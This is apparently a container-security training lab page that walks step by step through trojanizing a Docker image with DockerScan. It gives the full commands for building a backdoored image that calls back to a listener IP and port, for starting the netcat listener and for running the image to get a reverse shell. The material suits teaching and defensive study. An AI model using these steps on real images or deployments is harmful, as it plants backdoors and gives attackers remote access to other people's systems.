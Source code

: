 # **Trojanized Docker Images - DockerScan**

### *A docker image can be trojanized with a tool called `DockerScan`. When a trojanized container is launched, the attacker can get a `reverse-shell` on-to the container*

-------

#### Step 1:

* Navigate to the `Trojanized Docker Images` directory

```commandline
cd /root/container-training/Container/Trojanized-Docker-Image/
```

* Install `dockerscan`

```commandline
export LC_CTYPE=en_US.UTF-8 && pip3 install dockerscan
```

* Pull and save the docker image that is to be trojanized

```commandline
docker pull abhaybhargav/vul_flask && docker save abhaybhargav/vul_flask:latest -o abhaybhargav-vul_flask
```

-------

#### Step 2:

* Set the necessary environment variables for `dockerscan` to run

```commandline
export LC_ALL=C.UTF-8

export LANG=C.UTF-8
```

* Fetch the IP of the provisioned server

```commandline
serverip
```

* Trojanize the saved docker to create a `.tar` file

```commandline
dockerscan image modify trojanize abhaybhargav-vul_flask -l <IP> -p <PORT> -o abhaybhargav-vul_flask-trojanized
```

**EXAMPLE**: `dockerscan image modify trojanize abhaybhargav-vul_flask -l 104.1.1.1 -p 1337 -o abhaybhargav-vul_flask-trojanized`

-------

#### Step 3:

* Once the command on **Step 2** has been run, a `netcat` command is returned. Run the command in another tab or use `tmux` to split the terminal.

```commandline
nc -v -k -l <IP> <PORT>
```

**EXAMPLE**: `nc -v -k -l 104.1.1.1 1337`

* Load the trojanized `.tar` docker file

```commandline
docker load -i abhaybhargav-vul_flask-trojanized.tar
```

-------

#### Step 4:

* Confirm that the trojanized image has been loaded

```commandline
docker images
```

* When the trojanized docker is run, the listener should have reverse-shell access to the container

```commandline
docker run -d -p 5000:5000 abhaybhargav/vul_flask
```

-------

#### Step 5:

* Stop/Close the `reverse-shell` tab

* Stop all containers

```commandline
clean-docker
```

---------

### Reading Material/References:
